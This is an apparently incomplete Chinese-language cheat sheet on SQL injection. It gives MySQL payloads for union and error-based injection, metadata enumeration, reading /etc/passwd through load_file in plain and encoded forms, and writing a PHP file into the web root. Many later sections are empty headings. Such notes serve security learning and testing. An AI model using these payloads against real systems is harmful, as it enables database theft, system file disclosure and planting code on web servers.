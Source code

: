 # SQL注入攻击概述
## 分类
### 数据类型分类
* 数字型
* 字符型


### 服务器返回分类
* union注入
* 报错注入
* 盲注

## 危害

# 不同数据库注入技巧
## MySQL
### 获取数据
* 注释符

```
#：注释从#符号到行尾
--：注释从--符号到行尾
/* */：注释符号中间
```

* 获取元数据

```
# 查询用户数据库名称
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA limit 0,1;

# 查询当前表
select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=(select DATABASE()) limit 0,1;

# 查询表中的字段
select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME="table_name" limit 0,1; 
```

* union查询

```
select username,password from bloodzer0 union select 1,2;
```

* MySQL报错注入

```
# updatexml函数
select * from bloodzer0 where id=1 and updatexml(1,(concat(0x7c,(select @@user()))),1);

# extractvalue函数
select * from bloodzer0 where id=1 and extractvalue(1,concat(0x7c,(select user())));

# 通过floor函数(也就是常说的双查询注入)
select * from bloodzer0 where id=1 union select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b;
```

### MySQL函数
```
# load_file()函数读文件
select 1,load_file('/etc/passwd'),3;
select 1,load_file(0x2f6574632f706173737764),3;
select hex(load_file(char(47,101,99,116,47,112,97,115,115,119,100))),3;

# into outfile函数写文件
select '<?php phpinfo();?>' into outfile '/var/www/html/info.php';
select char(99,58,92,50,46,116,120,116) into outfile '/var/www/html/info.php';

# 连接字符串
select * from bloodzer0 where id=1 union select concat(user(),',',database());

select * from bloodzer0 where id=1 union select concat_ws(0x2c,user(),database());
```

函数						|		说明
---							|		---	
length						|	返回字符串长度
substring					|	截取字符串长度
ascii						|	返回acsii码
hex							|	把字符串转换为16进制
unhex						|	hex的反向操作
now							|	当前系统时间
floor(x)					|	返回不大于X的最大整数值
md5							|	返回MD5值
group_concat				|	返回带有来自一个组的连接的非NULL值的字符串结果
@@datadir					|	读取数据库路径
@@basedir					|	MySQL安装路径
@@version_compile_os	|	操作系统
user						|	用户名
current_user				|	当前用户名
system_user				|	系统用户名
database					|	数据库名
version					|	MySQL数据库版本

### MySQL宽字节注入
```
成因：编码不统一造成，一般只出现在PHP+MySQL中；

编码：%d5
```

### MySQL长字符截断


### MySQL盲注

## MSSQL
### 获取数据
#### 利用错误消息提取信息

#### 获取元数据

#### order by子句

#### union查询

### MSSQL函数

### MSSQL存储过程

### 动态执行

## Oracle
### 获取数据
#### 获取元数据

#### union查询

### Oracle包

## PostgreSQL

## MongoDB

# SQL注入Bypass
